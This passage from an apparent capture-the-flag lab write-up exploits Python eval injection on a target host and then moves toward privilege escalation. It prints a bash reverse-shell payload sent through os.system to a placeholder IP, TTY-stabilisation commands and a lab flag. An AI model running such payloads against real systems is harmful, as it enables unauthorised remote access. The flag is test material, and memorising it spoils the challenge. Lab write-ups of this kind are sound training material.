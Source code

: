 If we decode the contents:

```python
Encrypted data: dWlkPTEwMDAoYnJ1Y2UpIGdpZD0xMDAwKGJydWNlKSBncm91cHM9MTAwMChicnVjZSkK
[+] Decrypted: uid=1000(bruce) gid=1000(bruce) groups=1000(bruce)
```

As seen `RCE` works. Let's craft a payload to get a reverse shell:

```python
__import__('os').system('bash -c "bash -i >& /dev/tcp/IP/9001 0>&1"')
```

If we got our listener ready, we will receive the connection:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250504143524.png)

Let's begin privilege escalation.



# PRIVILEGE ESCALATION
---


First step is to get ourselves a stable shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250504143634.png)

We can read first flag:

```
bruce@devie:~$ cat flag1.txt
THM{Car3ful_witH_3v@l}
```

In our home directory, we can find this:

```bash
bruce@devie:~$ ls -la
total 44
drwxr-xr-x 4 bruce bruce 4096 Feb 20  2023 .
drwxr-xr-x 4 root  root  4096 May 12  2022 ..
lrwxrwxrwx 1 root  root     9 May 13  2022 .bash_history -> /dev/null
-rw-r--r-- 1 bruce bruce  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 bruce bruce 3771 Feb 25  2020 .bashrc
drwx------ 2 bruce bruce 4096 May 12  2022 .cache
-rw-r--r-- 1 root  root   158 Feb 19  2023 checklist
-rw-r----- 1 root  bruce   23 May 12  2022 flag1.txt
-rw-r--r-- 1 root  root   355 Feb 20  2023 note
-rw-r--r-- 1 bruce bruce  807 Feb 25  2020 .profile
-rw-rw-r-- 1 bruce bruce   75 May 12  2022 .selected_editor
drwx------ 2 bruce bruce 4096 May 12  2022 .ssh
-rw------- 1 bruce bruce    0 May 12  2022 .viminfo
```
